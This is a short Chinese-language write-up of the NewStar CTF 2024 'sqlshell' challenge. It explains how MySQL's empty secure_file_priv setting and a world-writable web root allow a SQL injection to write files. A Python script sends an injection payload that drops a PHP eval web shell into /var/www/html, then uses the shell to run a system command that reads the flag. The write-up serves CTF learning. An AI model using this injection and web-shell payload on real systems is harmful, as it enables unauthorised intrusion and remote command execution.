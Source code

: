 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# sqlshell

mysql 启动时，加了选项 `--secure_file_priv=''`，这个的选项作用是允许 mysql 进行文件读写。

- 如果这个选项是 `NULL`，说明不能进行文件读写
- 如果这个选项是指定的目录，说明只能对指定目录进行文件读写
- 如果这个选项是空字符串，也就是 `''`，能对任意目录进行文件读写

程序运行时，执行了命令 `chmod 777 /var/www/html`，作用是允许该目录被所有用户写入文件。

所以思路就是通过注入 SQL 语句，进行写文件，写一个木马到网站根目录（`/var/www/html`）下即可。

```python
import requests

url = 'http://192.168.109.128:8889'

payload = '\' || 1 union select 1,2,"<?php eval($_GET[1]);" into outfile \'/var/www/html/3.php\'#'

res = requests.get(url,params={'student_name': payload})
res = requests.get(f'{url}/3.php', params={'1': 'system("cat /you_cannot_read_the_flag_directly");'})
print(res.text)
```
